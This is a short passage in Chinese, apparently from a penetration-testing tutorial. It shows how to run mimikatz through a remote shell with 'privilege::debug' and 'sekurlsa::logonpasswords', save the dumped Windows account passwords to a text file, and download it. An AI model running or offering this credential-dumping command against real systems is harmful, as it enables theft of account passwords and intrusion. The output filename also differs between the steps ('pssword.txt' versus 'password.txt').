     提权：`privilege::debug`

    输出系统账号密码：`sekurlsa::logonpasswords`

11. 右键 `shell`，选择虚拟终端，执行命令：`mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" > pssword.txt`，执行 `mimikatz`，提权并获取系统账号密码，最后导出到 `txt` 文本上

![](/images/mk-2020-03-17-21-37-27.png)

12. 在文件管理中可以看到 `password.txt` 文件

![](/images/mk-2020-03-17-21-37-37.png)

13. 可以下载或者双击打开查看，成功获取系统账号密码

